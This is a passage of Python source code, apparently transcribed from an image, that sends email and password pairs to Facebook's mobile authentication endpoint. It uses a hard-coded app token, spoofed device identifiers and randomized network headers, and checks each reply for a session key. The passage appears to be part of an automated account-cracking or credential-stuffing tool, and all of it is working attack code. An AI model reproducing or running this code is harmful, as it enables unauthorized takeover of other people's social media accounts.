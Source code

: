                                         'email':ids,

                                        'password':pas,

                                        'cpl':'true',

                                        'credentials_type':'device_based_login_password',

                                        "source": "device_based_login",

                                        'error_detail_type':'button_with_disabled',

                                        'source':'login','format':'json',

                                        'generate_session_cookies':'1',

                                        'generate_analytics_claim':'1',

                                        'generate_machine_id':'1',

                                        "locale":"es_CU","client_country_code":"CU",

                                        'device':gtt,

                                        'device_id':adid,

                                        "method": "auth.login",

                                        "fb_api_req_friendly_name": "authenticate",

                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}

                                head = {

                                        'content-type':'application/x-www-form-urlencoded',

                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),

                                        'x-fb-connection-type':'unknown',

                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',

                                        'user-agent':ua_string,

                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),

                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),

                                        'x-fb-connection-quality':'EXCELLENT',

                                        'x-fb-friendly-name':'authenticate',

                                        'accept-encoding':'gzip, deflate',

                                        'x-fb-http-engine':     'Liger'}

                                url = 'https://b-graph.facebook.com/auth/login?include_headers=false&decode_body_json=false&streamable_json_response=true'

                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text

                                q = json.loads(po)

                                if 'session_key' in q:
